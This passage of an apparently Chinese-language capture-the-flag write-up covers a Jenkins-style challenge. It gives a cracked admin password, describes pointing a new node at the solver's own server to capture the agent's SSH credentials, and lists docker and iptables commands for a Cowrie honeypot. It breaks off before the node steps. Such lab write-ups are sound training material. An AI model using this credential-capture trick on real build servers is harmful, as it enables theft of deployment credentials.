 Knave是agent的admin

![image-20231107112001713](README.assets/image-20231107112001713.png)

通过爆破密码可以得到密码（直接抄wp的密码了）

```
knave:rockme
```

之后就是新创建一个node，设置它的host和Credentials改成自己服务器和agent的 credentials，ssh发送到自己部署的蜜罐上来得到flag。



先创建蜜罐，使用https://github.com/cowrie/cowrie：



```bash
docker run -p 2222:2222 cowrie/cowrie
#设置端口转发
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -P FORWARD ACCEPT
iptables -A INPUT -p tcp --dport 2222 -j ACCEPT
iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-ports 2222

#蜜罐使用完之后将转发的规则删除，要删干净。
iptables -L INPUT --line-numbers
iptables -D INPUT 7
iptables -t nat -L -n --line-numbers
iptables -t nat -D PREROUTING 2
```



创建新节点：
